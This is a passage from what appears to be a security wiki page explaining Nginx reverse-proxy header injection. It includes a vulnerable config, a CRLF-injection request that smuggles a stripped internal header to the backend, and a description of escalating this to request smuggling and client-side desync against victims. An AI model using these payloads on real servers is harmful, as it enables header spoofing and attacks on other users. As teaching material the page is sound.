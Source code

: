 Lastly, the `Cache-Control:` header may come in useful if you want to poison/deceive the cache.

#### Request Headers

When unescaped characters fall into `proxy_pass` paths or `proxy_set_header` values, you can inject request header. This works similarly to [#response-headers](reverse-proxies.md#response-headers "mention"), but the exploitation is wildly different.

<pre class="language-nginx" data-title="Vulnerable Example"><code class="lang-nginx">location / {
<strong>    proxy_set_header X-Original-URI $uri;
</strong>    proxy_set_header X-Internal-Header "";
    proxy_pass http://backend;
}
</code></pre>

Above the `$uri` variable is insecurely put into a header value. The `X-Internal-Header` is also stripped from our request, presumably because the application doesn't want to user to control this.\
By injecting with a CRLF in the path, however, we can still send this header to the backend:

{% code title="Exploit" %}
```http
GET /%0d%0aX-Internal-Header:%20INJECTED HTTP/1.1
```
{% endcode %}

{% code title="What backend sees" %}
```http
GET /%0d%0aX-Internal-Header:%20INJECTED HTTP/1.0
X-Original-URI: /
X-Internal-Header: INJECTED
Host: 127.0.0.1:1337
```
{% endcode %}

This can be useful for controlling internal headers, or spoofing trusted values like `X-Client-IP`.

By injecting two CRLF sequences, you can even **end the previous HTTP request** to perform [http-request-smuggling.md](http-request-smuggling.md "mention"). If Nginx keeps the connection to the backend open, you can inject into this queue to send raw requests that wouldn't normally be allowed, desynchronize other users, or leak internal headers by playing around with the `Content-Length:`.

Importantly, the above is often possible through just a specific path. You can make a victim visit this in their browser to poison their own connection, creating a client-side desync.

### Special Response Headers

Nginx understands some special headers from the backend when proxying using `proxy_pass`. To demonstrate this, see the following configuration:

<pre class="language-nginx"><code class="lang-nginx">location /test {
    return 200 "Test";
}
location /internal {
<strong>    internal;  # Normally not accessible remotely
</strong>    return 200 "Internal";
}
